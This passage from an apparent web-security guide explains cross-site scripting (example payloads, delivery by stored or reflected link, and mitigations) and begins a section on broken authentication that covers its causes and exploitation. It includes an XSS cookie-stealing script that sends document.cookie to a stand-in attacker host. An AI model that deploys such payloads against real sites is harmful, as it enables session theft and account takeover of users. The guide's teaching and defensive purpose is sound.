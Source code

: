 ```html
<script>alert('XSS');</script>
```
For DOM-based XSS, manipulate the browser environment (e.g., `document.location` or `document.cookie`).
#### 3. Deliver the payload
- **Stored XSS:** Submit the payload to a comment field, message system, or another area that will be rendered to users.
- **Reflected XSS:** Share a crafted malicious link with the victim, such as:
```bash
http://example.com?search=<script>alert('XSS');</script>
```
#### 4. Exfiltrate sensitive data
Use scripts to steal cookies, tokens, or other sensitive information, e.g.:
```html
<script>
    fetch('http://attacker.com/log?cookie=' + document.cookie);
</script>
```
### How to Mitigate?
- **Input validation:** Validate all user input to ensure it conforms to expected formats and reject malicious data.

- **Output encoding:** Encode all dynamic content before rendering it in the browser, using context-appropriate encoding.

- **Use Content Security Policy (CSP):** Enforce a CSP header to restrict the sources of scripts that can run on your website.

- **Avoid dangerous functions:** Avoid using insecure JavaScript methods like `eval()`, `document.write()`, or `innerHTML` when processing untrusted data.

- **Sanitize stored data:** Ensure all data retrieved from storage (e.g., databases) is sanitized before rendering.

- **Apply security libraries:** Use libraries or frameworks with built-in XSS protection, such as `ESAPI` for Java or the `django.utils.html.escape` function in Python.
## Broken Authentication
Broken Authentication occurs when flaws in the implementation of authentication mechanisms allow attackers to compromise user accounts or impersonate users. This can lead to unauthorized access and further exploitation.
### Main Causes
- **Weak password policies:** Users are allowed to create simple or common passwords, making them easy to guess or brute-force.

- **Poor session management:** Session tokens are not securely generated, stored, or invalidated, making them susceptible to theft or reuse.

- **Lack of multi-factor authentication (MFA):** Applications rely solely on passwords without additional layers of protection.

- **Insecure credential storage:** Passwords are stored in plaintext or using weak hashing algorithms.
### How to Exploit?
- **Brute-force login attempts:** Attackers guess username-password combinations using automated tools.
